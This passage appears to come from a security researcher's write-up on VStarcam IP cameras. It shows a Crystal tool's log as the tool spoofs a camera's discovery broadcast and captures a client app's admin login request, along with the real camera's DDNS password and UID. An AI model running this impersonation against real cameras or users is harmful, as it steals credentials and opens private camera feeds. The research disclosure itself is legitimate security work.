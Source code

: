   end
  got_ping
end
</code></pre>

## Getting the Password

At this point we have done everything we needed, and the client should be spilling it's guts to us.

<pre><code>
[Running] crystal "/home/ian/Documents/crystal/vstarcam-investigational-journey/client/src/sandbox.cr"
I, [2019-03-13 20:24:28 -07:00 #25421]  INFO -- : Opening ports
I, [2019-03-13 20:24:28 -07:00 #25421]  INFO -- : Ports opened
I, [2019-03-13 20:24:28 -07:00 #25421]  INFO -- : Waiting to receive the DBP from a client
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Changing to listen_for_camera_dbr
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Waiting to receive the DBR from a camera
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Got a potential DBR from a client
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : GOT DBR TARGET 192.168.11.140:8600
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Parsed new target camera {:camera_ip => "192.168.11.140", :netmask => "255.255.255.0", :gateway => "192.168.11.1", :dns1 => "8.8.8.8", :dns2 => "192.168.11.1", :mac_address => "48:02:2A:0B:DB:B4", :http_port => "47250", :uid => "VSTB668515UZCPK", :name => "IPMAN", :ddns_ip => "48.53.72.104", :unknown1 => "\u0001", :ddns_url => "user2.ipcam.so", :sn => "dqqlz", :ddns_password => "252926"}
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Changing to spam
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Spamming DBR!
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Changing to listen_for_client_bcp
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Changing to send_bps
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Changing to receive_bps
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : BPS SUCCESSFUL
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Changing to send_4_bpa
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Sent Pong
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Waiting for client ping
I, [2019-03-13 20:24:31 -07:00 #25421]  INFO -- : Spamming DBR Finished!
I, [2019-03-13 20:24:33 -07:00 #25421]  INFO -- : PING SUCCESSFUL
I, [2019-03-13 20:24:33 -07:00 #25421]  INFO -- : Changing to main_phase
I, [2019-03-13 20:24:33 -07:00 #25421]  INFO -- : REQUEST RECEIVED FROM CLIENT 108
I, [2019-03-13 20:24:33 -07:00 #25421]  INFO -- : 
GET /check_user.cgi?name=300178294&loginuse=admin&loginpas=password&user=admin&pwd=password&
I, [2019-03-13 20:24:33 -07:00 #25421]  INFO -- : REQUEST RECEIVED FROM CLIENT 108
I, [2019-03-13 20:24:33 -07:00 #25421]  INFO -- : 
GET /check_user.cgi?name=300178294&loginuse=admin&loginpas=password&user=admin&pwd=password&
I, [2019-03-13 20:24:33 -07:00 #25421]  INFO -- : REQUEST RECEIVED FROM CLIENT 108
I, [2019-03-13 20:24:33 -07:00 #25421]  INFO -- : 
GET /check_user.cgi?name=300178294&loginuse=admin&loginpas=password&user=admin&pwd=password&
I, [2019-03-13 20:24:34 -07:00 #25421]  INFO -- : Sent Pong
I, [2019-03-13 20:24:35 -07:00 #25421]  INFO -- : Sent Pong
I, [2019-03-13 20:24:36 -07:00 #25421]  INFO -- : Sent Pong
I, [2019-03-13 20:24:36 -07:00 #25421]  INFO -- : RECEIVED UNBLOCK FIBER COMMAND!
I, [2019-03-13 20:24:36 -07:00 #25421]  INFO -- : RECEIVED UNBLOCK FIBER COMMAND!
I, [2019-03-13 20:24:37 -07:00 #25421]  INFO -- : Sent Pong
I, [2019-03-13 20:24:37 -07:00 #25421]  INFO -- : RECEIVED DISCONNECT FROM CLIENT
I, [2019-03-13 20:24:37 -07:00 #25421]  INFO -- : Changing to spam
I, [2019-03-13 20:24:37 -07:00 #25421]  INFO -- : Spamming DBR!
I, [2019-03-13 20:24:37 -07:00 #25421]  INFO -- : Changing to listen_for_client_bcp
I, [2019-03-13 20:24:37 -07:00 #25421]  INFO -- : Changing to send_bps
I, [2019-03-13 20:24:37 -07:00 #25421]  INFO -- : Changing to receive_bps
I, [2019-03-13 20:24:42 -07:00 #25421]  INFO -- : BPS UNSUCCESSFUL
I, [2019-03-13 20:24:42 -07:00 #25421]  INFO -- : Changing to listen_for_client_bcp
</code></pre>
